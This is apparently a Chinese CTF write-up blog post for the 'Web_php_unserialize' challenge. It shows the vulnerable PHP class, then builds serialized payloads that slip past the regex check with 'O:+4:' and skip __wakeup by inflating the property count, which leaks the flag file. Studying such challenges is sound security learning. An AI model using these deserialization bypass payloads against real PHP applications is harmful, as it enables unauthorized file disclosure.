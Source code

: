 ```yaml
---
layout: post
title: Web进阶题-Web_php_unserialize
excerpt: "攻防世界进阶Web题目-Web_php_unserialize"
date:   2020-10-12 12:43:00
categories: [CTF]
comments: true
---
```


## 我的解题过程

1. 访问网页，王爷正文为

   ```php
   <?php 
   class Demo { 
       private $file = 'index.php';
       public function __construct($file) { 
           $this->file = $file; 
       }
       function __destruct() { 
           echo @highlight_file($this->file, true); 
       }
       function __wakeup() { 
           if ($this->file != 'index.php') { 
               //the secret is in the fl4g.php
               $this->file = 'index.php'; 
           } 
       } 
   }
   if (isset($_GET['var'])) { 
       $var = base64_decode($_GET['var']); 
       if (preg_match('/[oc]:\d+:/i', $var)) { 
           die('stop hacking!'); 
       } else {
           @unserialize($var); 
       } 
   } else { 
       highlight_file("index.php"); 
   } 
   ?>
   ```

   * 定义了一个Demo类
     * 私有成员变量file，用于存储打印源码的文件名
     * 构造函数，参数为file
     * 析构函数，用于打印file文件的文件内容，并且以PHP语法高亮
     * wakeup函数，在反序列执行之前进行调用，将file变量置为‘index.php’
   * 提示flag在fl4g.php文件里面，所以此次反序列化是要反序列化一个file变量为‘fl4g.php’的demo对象，且需要绕过wakeup魔术方法
   * index.php从get方法中取一个var参数，经过base64解码后，且需要绕过一个正则表达式才能进行反序列化

2. 总结题目步骤

   * 提交的参数需要经过base64编码
   * 绕过正则表达式
   * 绕过wakeup方法
   * 将file文件名改为‘fl4g.php'

3. 正常的构造方式为*O:4:"Demo":1:{s:10:"\00Demo\00file";s:8:"fl4g.php";}*，网页正文为”stop hacking!“

4. 绕过wakeup，只需对象的属性个数值大于实际值就可以，所以构造对象*O:4:"Demo":2:{s:10:"\00Demo\00file";s:8:"f14g.php";}*

5. 目前是需要在前面加上某些字符，使其不符合正则表达式同时还不影响反序列化

6. 卡在了这一步

## 别人的解决方法

1. 使用了+4，来绕过O:4:的模式，因为反序列化时会把两个冒号中间的内容当作类名的长度，所以添加‘+’号不影响反序列化的执行。

2. 所以构造的对象为*O:+4:"Demo":1:{s:10:"\x00Demo\x00file";s:8:"f14g.php";}*

3. 但是在复制时容易丢失原有的\x00，如果直接序列化会把\x00当作好几个字符，而不是一个字符

4. 所以在复制这个类到PHP脚本中，通过serialize函数正常序列化一个出来

   ```php
   <?php
   class Demo { 
       private $file = 'index.php';
       public function __construct($file) { 
           $this->file = $file; 
       }
       function __destruct() { 
           echo @highlight_file($this->file, true); 
       }
       function __wakeup() { 
           if ($this->file != 'index.php') { 
               //the secret is in the fl4g.php
               $this->file = 'index.php'; 
           } 
       } 
   }
   $var=new Demo('fl4g.php');
   echo serialize($var);
   ?>
   //输出结果为
O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}   
   ```

5. 将序列化的结果复制到Burp Suite的Decoder模块，查看是否正确。

6. 如果出现问题，直接修改这个字符串的十六进制，将对应位置修改为十六进制的00

7. 检查无误后，使用Decoder的base64进行编码

8. 编码完成后，访问网站，返回内容

   ```php
   <?php
   $flag="ctf{b17bd4c7-34c9-4526-8fa8-a0794a197013}";
   ?>
   ```

9. 发现flag，ctf{b17bd4c7-34c9-4526-8fa8-a0794a197013}


## 独立思考

### 1. 正则表达式有哪些符号？

题目中给出的正则表达式为*/\[oc\]:\\d+:/i*

| 字符    | 描述                                                        | 本题中的字符 | 本题中的释义   |
| ------- | ----------------------------------------------------------- | ------------ | -------------- |
| \[abc\] | 匹配\[\]中的所有字符，如前面的是要匹配字符串中的a、b、c字母 | \[oc\]       | 匹配所有o、c   |
| \d      | 匹配一个数字                                                | \d           | 数字           |
| +       | +前面的字符至少出现一次                                     | \d+          | 至少有一个数字 |
| /xxx/   | / /之间的是正则表达式                                       |              |                |
| /i      | 最后有i，代表大小写不敏感                                   |              |                |

所以本题匹配的是O:4:这个模式，需要绕过这个模式并且还不影响反序列化。

### 2. 有哪些不影响语义，且能绕过正则表达式的方法？

本题主要的难点就在于这里。

* 对于数字来说，如果它匹配模式中间是数字，可以使用+号来绕过，因为它仅仅匹配0-9这十个字符。

### 3. 本题经验

对于出现乱码的情况，一定要小心复制的过程中丢失字符，熟练使用Burp Suite的Decoder模块，便于对字符串的16进制进行修改，而且可以进行常用的编解码。

## 产生过的疑问

1. 正则表达式有哪些符号？
2. 有哪些不影响语义，且能绕过正则表达式的方法？
